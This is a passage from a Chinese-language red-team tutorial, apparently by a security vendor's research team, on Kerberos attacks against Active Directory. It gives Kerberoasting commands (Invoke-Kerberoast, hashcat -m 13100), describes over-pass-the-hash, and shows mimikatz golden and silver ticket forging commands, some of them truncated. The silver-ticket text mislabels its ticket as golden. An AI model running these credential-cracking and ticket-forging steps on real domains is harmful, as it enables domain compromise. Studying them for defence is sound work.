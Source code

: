 在微软 Kerberos 协议实现中，任何经过认证的域用户可以获取服务票据。服务票据通过服务账户
hash加密，而服务账户一种是关联到机器账户，一种是关联到域用户账户。机器账户密码复杂爆破难度高，通常寻找域用户账户关联的服务来进行爆破

  

使用 Empire 中的 Invoke-Kerberoast 可以自动获取域用户账户关联服务的SPN并获取票据

Invoke-kerberoast –outputformat hashcat | fl

  

使用 hashcat 破解票据

hashcat64.exe –m 13100 hash.txt pass.txt –force

  

 **over-pass-the-hash  **

获取到用户的 hash 后，利用用户 hash 和 kerberos 协议认证系统，与 pass-the-hash 不同之处在于，pass-the-hash
是用用户 hash 和 NTLM 协议认证系统

  

利用方式和 pass-the-hash 的相同

  

 **黄金票据  **

在知道 krbtgt 用户 hash 后，可以制作黄金票据，不在向 KDC 申请

利用 mimikatz 生成黄金票据

kerberos::purge

kerberos::golden /admin:administrator /domain:college.com
/sid:S-1-5-21-3792756393-3386897061-2081858749 /krbtgt:4c

  

 **白银票据**

在知道服务用户 hash 后，可以制作白银票据，不在向 KDC 申请利用 mimikatz 生成黄金票据

kerberos::golden /user:username /id:1106 /domain:domainname
/sid:S-1-5-21-1473643419-774954089-2222329127 /target:s

  

参考

https://www.kerberos.org/software/tutorial.html

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805095043.png)

 **绿盟科技M01N战队** 专注于Red
Team、APT等高级攻击技术、战术及威胁研究，涉及Web安全、终端安全、AD安全、云安全等相关领域。通过研判现网攻击技术发展方向，以攻促防，为风险识别及威胁对抗提供决策支撑，全面提升安全防护能力。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805095044.png)

 **M01N Team**
